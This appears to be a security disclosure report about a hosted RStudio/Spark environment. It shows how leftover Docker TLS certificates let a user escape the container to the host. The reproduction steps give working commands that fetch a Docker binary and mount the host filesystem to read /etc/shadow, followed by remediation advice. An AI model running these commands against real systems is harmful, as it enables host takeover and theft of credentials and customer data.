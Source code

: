 ```
--------
- Root access to container's host machine and (likely) root access to all
  machines on the entire Spark compute cluster network
- R/W access to any connected stores of customer data including network
  drives, LAN-only services, firewall-protected endpoints, etc.
- Installation of rootkits and/or malicious code to steal sensitive business
  data over time


Reproduction
------------
(1) Enter RStudio Web Environment, and focus the cursor on the command line.
(2) Download and Extract Docker:

    > system("wget https://test.docker.com/builds/Linux/x86_64/docker-1.13.1-rc1.tgz")
    > system("tar -xvzf docker*.tgz")

(3) Use docker binary with existing certificates to obtain root-like access to
    the host using volume mounts. You may need to check/correct the naming of the
    pem files for this to work--I'm not sure that I remembered them correctly:

    > system("DOCKER_API_VERSION=1.22 ./docker/docker -H 172.17.0.1 \
              --tlscacert /certs/ca.pem --tlscert /certs/cert.pem \
              --tlskey /certs/key.pem \
              run -v /:/host debian cat /host/etc/shadow")

    This is as good as root access.


Further Untested Implications
-----------------------------
- If all the other Docker Swarm sockets share the same cryptographic handshake
  and are accessible from the internal network, then root access to this one
  box could be leveraged to root the whole network.
- Users could keep on registering new accounts until they are distributed to
  all or nearly all Spark machines on the network, performing the same root
  privilege escalation.
- If customer data is accessible by all nodes, then through exploitation of
  this vulnerability on a single box, it may be feasible to siphon all
  customer data.
- Any other privilege escalations available after obtaining root on a machine


Recommended Remediations
------------------------
These steps may help, but as always, please ensure that they are filtered
through your knowledge of the system archicture to determine if they would be
truly effective:

Fixes and Improvements:

- Remove security certificates found in `/certs/` on Docker containers and
  refactor application architecture as necessary
- More comprehensive sandboxing for environments where remote code execution
  is expected. While containers have some secure defaults, they are not meant
  for security-centric applications, and container security is something that
  must be aggressive pursued. KVM has a much better security record.
- Ensure separation of customer data within data stores
- Consider solutions like AppArmor and SELinux which offer finer-grained
  controls of access
- Lock down `docker pull` on host
- Use a password-protected and TLS-enabled Docker registry if not already

```